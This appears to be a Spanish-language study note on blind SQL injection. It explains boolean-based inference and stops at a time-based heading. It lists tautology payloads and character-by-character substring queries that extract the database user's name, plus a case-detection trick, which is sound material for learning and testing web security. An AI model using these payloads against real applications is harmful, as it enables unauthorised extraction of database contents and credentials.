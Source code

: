 Metodología de inferencia para extraer DB schemas y data. Si una aplicación no es explotable por in-band o error-based puede ser aún vulnerable por el Blind.
# Boolean based SQLi

No siginifca que los Blind SQLi son explotable solo si la aplicación no muestra errores, significa que al crear un payload Boolean based SQLi, queremos traformar un query en a True/False condition que refleja su estado al web application output.

' OR 'a'='a

' OR '1'= '1

' OR '1'= '11

Luego de saber qué estatement generan true/false podemos extraer por ejemplo la primera letra del username, si la DB contiene tablas árboles, etc
### Current DB detection

|   |   |
|---|---|
|Mysql>select user();|Retorna el usuario actual que está usando el DB|
|Mysql>select substring('freddy',2,1);|Retorna: r. 'freddy' es input string, 2 es la posición del substring y 1 es su tamaño|
|Mysql>select substring(user(),1,1);|Si el usario es root, retorna r|
|Mysql>select substring(user(), 1, 1)='r';|Si retorna 1 es True, si es 0 False|

Usando estos features, podemos iterar sobre las netras del username usando:

|                                |                                                                                 |
| ------------------------------ | ------------------------------------------------------------------------------- |
| `' or substr(user(), 1, 1)='a` | Buscamos la primera letra del usuario actual de la de DB infiriendo si es 1 o 0 |
| `' or substr(user(), 2, 1)='a` | Buscamos la primera letra del usuario actual de la de DB infiriendo si es 1 o 0 |

Ejemplo de inyección:, tendriamos  que probar cada uno de los posibles caracteres <a,z>, <A,Z>,<0,9> hasta obtener el nombre del usuario por ejemplo

99999 or SUBSTRING(user_name(),1,1) = 'c'; -- -

Para acelerar el proceso, odemos descartar si un carácter es mayúscula y minúscula para evitar probrar con todas las letras en ambos casos

|   |   |
|---|---|
|`ASCII(UPPER(SUBSTRING(My_query),<position>,q)))=ASCII(SUBSTRING((My_query),<position>,1))`|Si sale False, entonces el valor está en minúscula|

Para lo contrario probamos con la función LOWER(). Si ambos resultados son TRUE entonces nuestro carácter es un número o un símbolo (al hacerlos UPPER o LOWER no cambian)

# Time Based Blind SQL Injection
